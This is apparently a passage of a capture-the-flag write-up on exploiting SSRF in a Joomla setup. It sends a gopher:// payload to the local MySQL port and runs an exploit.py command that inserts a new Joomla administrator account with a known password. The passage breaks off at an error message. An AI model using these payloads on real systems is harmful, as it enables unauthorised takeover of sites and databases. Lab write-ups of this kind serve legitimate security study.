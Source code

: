 ```shell
...SNIPPED...
Payload:
gopher://127.0.0.1:3306/A/%00%00%01O%B7%00%00%00%00%00%01%21%00%00%00%00
%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00goblin%00%00
joomla%00%0D%00%00%00%03select%20now%28%29%00%00%00%00
```
Then I need to `URL-encoded` it because I have to send it with a request, and I use the page [urlencoder](https://www.urlencoder.io/) to do it, when I test it with the `SSRF`, then it returns nothing, but after some testing, I realize it takes a while to respond, and if I change the user or the table name, the response is instant, and that made me think that I handled `blind SQL queries`, and I decided to try to insert a new administrator account. When I google `Joomla create user admins from database`, then I find the [forum threat](https://forum.joomla.org/viewtopic.php?t=690433), and there they mention the [`Joomla` documentation](https://docs.joomla.org/How_do_you_recover_or_reset_your_admin_password%3F). When I check it, then I see the detailed steps to insert a new record:

![evidence](./static/15-joomla-docs.png)

When I use the `exploit.py` script with the following query:
```shell
$ python2 exploit.py -u goblin -p "" -d "joomla" -P "INSERT INTO
> `joomla_users` (`name`, `username`, `password`, `params`,
> `registerDate`, `lastvisitDate`, `lastResetTime`) VALUES
> ('Administrator2', 'admin2',
> 'd2064d358136996bd22421584a7cb33e:trd7TvKHx6dMeoMmBVxYmg0vuXEA4199', '',
> NOW(), NOW(), NOW());" -v
```
And I `URL-encoded` the payload, and I use the `SSRF` with that payload, and I try to access the `Joomla` site with the credentials `admin2:secret`, then I get the error message:
